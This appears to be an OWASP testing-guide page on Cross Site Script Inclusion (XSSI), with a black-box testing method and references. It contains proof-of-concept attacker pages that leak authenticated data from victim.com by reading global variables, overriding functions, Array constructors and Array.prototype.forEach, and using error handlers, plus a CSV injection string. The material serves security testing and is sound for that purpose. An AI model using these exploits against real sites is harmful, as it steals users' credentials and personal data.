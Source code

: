 # Summary

Cross Site Script Inclusion (XSSI) vulnerability allows sensitive data leakage across-origin or cross-domain boundaries. Sensitive data could include authentication related data (login states, cookies, auth tokens, session IDs, etc.), user personal or sensitive personal data (email addresses, phone numbers, credit card details, social security numbers, etc.). XSSI is a client-side attack similar to Cross Site Request Forgery (CSRF) but they have a different purpose: CSRF uses the authenticated user context to execute certain state-changing actions inside a victim’s page (eg. transfer money to the attacker's account, modify privileges, reset password, etc.) and XSSI uses JavaScript on the client side to leak sensitive data from authenticated sessions.

By default websites are only allowed to access data if they are from the same origin. This is a key application security principle and governed by the same-origin policy (defined by RFC 6454 - [https://tools.ietf.org/html/rfc6454] [1]). An origin is defined as the combination of URI scheme (http/https), host name, and port number. However, this policy is bypassed/not appliable for <script> HTML tag inclusions. This exception is necessary as without it websites would not be able to consume third party services, traffic analysis or advertisement platforms, etc.

When the browser opens a website with <script> tags, the resources are fetched from the cross-origin domain and they run in the same context as the including site/browser which presents the opportunity to leak sensitive data. This is achieved in most cases using JavaScript (JS), however, the script source doesn't have to be a JS file, be served with `text/javascript` or `.js` extension. Some browsers are lenient and only block if it is served with an image type (`image/*`), a video type (`video/*`), an audio (`audio/*`) type, or `text/csv`\[[10]].

Old browser version vulnerabilities (IE9/10) allowed data leakage via JavaScript error messages at runtime but those vulnerabilties have now been patched by vendors and are considered not as relevant. By setting the charset attribute of the <script> tag the attacker/tester can enforce UTF-16 encoding which allows data leakage for other data formats (eg JSON) in some cases. If you want to learn more about these please read  [Identifier based XSSI attacks MBSD Whitepaper](https://www.mbsd.jp/Whitepaper/xssi.pdf).
  
The following XSSI vulnerability cases will be discussed:

1. Leak sensitive data via global variables
2. Leak sensitive data via global function parameters
3. Leak sensitive data via non-JavaScript resource - CSV with quotations theft
4. Leak sensitive data via JavaScript runtime errors

## Example Leak Sensitive Data via Global Variables

1. An API key is stored in a JavaScript file with the URI `https://victim.com/internal/api.js` on the victim's website (victim.com) which is only accessible for authenticated users. The attacker/tester configures a website (attackingwebsite.com) and uses the <script> tag to refer to this JavaScript file in question.

`api.js` contents:
```
(function() {
  window.secret = "supersecretUserAPIkey";
})();
```

2. The attacker/tester has configured a website (attackingwebsite.com) with the following:

`index.html` contents:
```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global variables</title>
  </head>
  <body>
    <h1>Leaking data via global variables</h1>
    <script src="https://victim.com/internal/api.js"></script>
    <div id="result">
    </div>
    <script>
      var div = document.getElementById("result");
      div.innerHTML = "Your secret data <b>" + window.secret + "</b>"; 
    </script>
  </body>
</html>
```

3. The attacker lures the user to attackingwebsite.com either via social engineering, phishing emails, etc. This step requires the user to authenticate first to victim.com before visiting attackingwebsite.com.

4. The user's browser fetches the api.js and the sensitive data is leaked via the global JavaScript variable and displayed using innerHTML. 

## Example Leak Sensitive Data via Global Function Parameters

This example is similar to the previous one except in this case attackingwebsite.com uses a global JavaScript function to extract the sensitive data by overwriting the victim's global JavaScript function.

`index.html` contents:
```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global function parameters 1</title>
  </head>
  <body>
    <div id="result">
    </div>
    <script>
      function globalFunction(param) {
        var div = document.getElementById("result");
        div.innerHTML = "Your secret data: <b>" + param + "</b>";
      }
    </script>
    <script src="https://victim.com/internal/api.js"></script>
  </body>
</html>
```

`api.js` contents:
```
(function() {
  var secret = "supersecretAPIkey";
  window.globalFunction(secret);
})();
```

There are other XSSI vulnerabilities leaking sensitive data either via JavaScript prototype chains or global function calls. If you want to learn more about these please visit Sebastian Leike's page [4].

## Example Leak Sensitive Data via Non-Javascript Resource - CSV with Quotations Theft

To leak data the attacker/test has to be able to inject JavaScript code into the CSV data. The following example is an excerpt from Takeshi Terada's identifier based XSSI attacks whitepaper [8]:

```
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: xxxx

1,"___","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"___","zzz@example.com","03-0000-0099"
```

In this case using the ___ parts as injection points and inserting the `\"",$$$=function(){/*` string has the following result:

```
1,"\"",$$$=function(){/*","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"*/}//","zzz@example.com","03-0000-0099"
```

Gmail had a similar vulnerability in 2006 that allowed the extraction of user contacts in JSON[11]. In this case the data was received from Gmail and parsed by the browser JavaScript engine using an unreferenced Array constructor to leak the data. The attacker/tester could access this Array with the sensitive data by defining and overwriting the internal Array constructor like this:

```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking gmail contacts via JSON </title>
  </head>
  <body>
    <script>
      function Array() {
        // steal data
      }
    </script>
    <script src="http://mail.google.com/mail/?_url_scrubbed_"></script>
  </body>
</html>
```

## Example Leak Sensitive Data via Javascript Runtime Errors

Browsers normally present standardized Javascript error messages like "Script error.". However, in the case of IE9/10 runtime error messages provided additional details which could be used to leak data. For example, a website (victim.com) serves the following content at the URI http://victim.com/service/csvendpoint for authenticated users:

```
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: 13

1,abc,def,ghi
```

This vulnerability could be exploited with the following:

```
<!--error handler -->
<script>window.onerror = function(err) {alert(err)}</script>
<!--load target CSV -->
<script src="http://victim.com/service/csvendpoint"></script>
```

When the browser tries to render the CSV content as JavaScript it fails and leaks the sensitive data:

![JavaScript runtime error message ](../images/XSSI1.jpeg)

## How to Test
### Black Box Testing

The methodology has the following steps:
1. Identify which endpoints are responsible for sending sensitive data, what parameters are required, and identify all relevant dynamically and statically generated JavaScript responses using authenticated user sessions. Pay special attention to sensitive data sent using JSONP. To find dynamically generated JavaScript responses generate authenticated and unauthenticated requests and compare/diff them. If they're different then the response is dynamic otherwise it's static. To simplify this task a purpose built Burp proxy plugin by Veit Hailperin can be used [2]. Make sure to check other filetypes in addition to JavaScript: XSSI is not limited to JavaScript files and is much more widespread.

2. Investigate if the sensitive data can be leaked using JavaScript:
  - Using global variables [example](#example-leak-sensitive-data-via-global-variables)
  - Overwriting global functions and parameters [example](#example-leak-sensitive-data-via-global-function-parameters)
  - Using an old version of browser and exploiting JavaScript runtime error leak vulnerabilities [example](#example-leak-sensitive-data-via-javascript-runtime-errors)
  - Data leak via prototype chaining by using the "this" keyword. In JavaScript "this" is dynamically scoped which means if a function is called upon an object, `this` will point to this object even though the called function might not belong to the object itself. This behavior can be used to leak data. In the following example from Sebastian Leike's page [4] the sensitive data is stored in an Array. The tester/attacker can override Array.prototype.forEach with an attacker-controlled function. If some code calls the forEach function on an array instance that contains sensitive values, the attacker-controlled function will be invoked with "this" pointing to the object that contains the sensitive data.

`javascript.js`
```
...
(function() {
  var secret = ["578a8c7c0d8f34f5", "345a8b7c9d8e34f5"];

  secret.forEach(function(element) {
    // do something here
  });  
})();
...
```

The sensitive data can be leaked with the following JavaScript code:
```
...
 <div id="result">

    </div>
    <script>
      Array.prototype.forEach = function(callback) {
        var resultString = "Your secret values are: <b>";
        for (var i = 0, length = this.length; i < length; i++) {
          if (i > 0) {
            resultString += ", ";
          }
          resultString += this[i];
        }
        resultString += "</b>";
        var div = document.getElementById("result");
        div.innerHTML = resultString;
      };
    </script>
    <script src="http://victim.com/..../javascript.js"></script>
...
```
### Gray Box Testing

The methodology is similar with the exception of the attacker/tester may have access to the source code to review.

# References

1. [RFC 6454: The Web Origin Concept](https://tools.ietf.org/html/rfc6454)
2. [W3schools - JSONP](https://www.w3schools.com/js/js_json_jsonp.asp)
3. [Wikipedia - JSONP](https://en.wikipedia.org/wiki/JSONP)
4. [Sebastian Lekies - Leaking Data Across Origins Via Dynamic Script Includes ](http://sebastian-lekies.de/leak/)
5. [Veit Hailperin - Cross-Site Script Inclusion](https://www.scip.ch/en/?labs.20160414)
6. [Sebastian Lekies / Ben Stock: Your Script in My Page: What Could Possibly Go Wrong?](https://www.owasp.org/images/f/f3/Your_Script_in_My_Page_What_Could_Possibly_Go_Wrong_-_Sebastian_Lekies%2BBen_Stock.pdf)
7. [Sebastian Lekies, Ben Stock, Martin Wentzel and Martin Johns - Unexpected Dangers of Dynamic JavaScript](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf)
8. [Takeshi Terada: Identifier based XSSI attacks (MBSD Technical Whitepaper)](https://www.mbsd.jp/Whitepaper/xssi.pdf)
9. [Veit Hailperin: The Tale of a Fameless but Widespread Vulnerability](https://www.owasp.org/images/9/9a/20160607-xssi-the_tale_of_a_fameless_but_widepsread_vulnerability-Veit_Hailperin.pdf)
10. [HackerOne XSSI – Stealing Multi Line Strings](https://blog.cm2.pw/h1-xssi/)
11. [Jeremiah Grossman blog - Advanced Web Attack Techniques using GMail](https://blog.jeremiahgrossman.com/2006/01/advanced-web-attack-techniques-using.html)
12. [A Codelab by Bruce Leban, Mugdha Bendre, and Parisa Tabriz](https://google-gruyere.appspot.com/part3#3__cross_site_script_inclusion)
13. [SameSite Cookie](https://tools.ietf.org/html/draft-west-first-party-cookies-07)

# Tools

1. [OWASP Zed Attack Proxy Project](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)
2. [Veit Hailperin - Detect Dynamic JavaScript](https://github.com/luh2/DetectDynamicJS/blob/master/DetectDynamicJS.py)
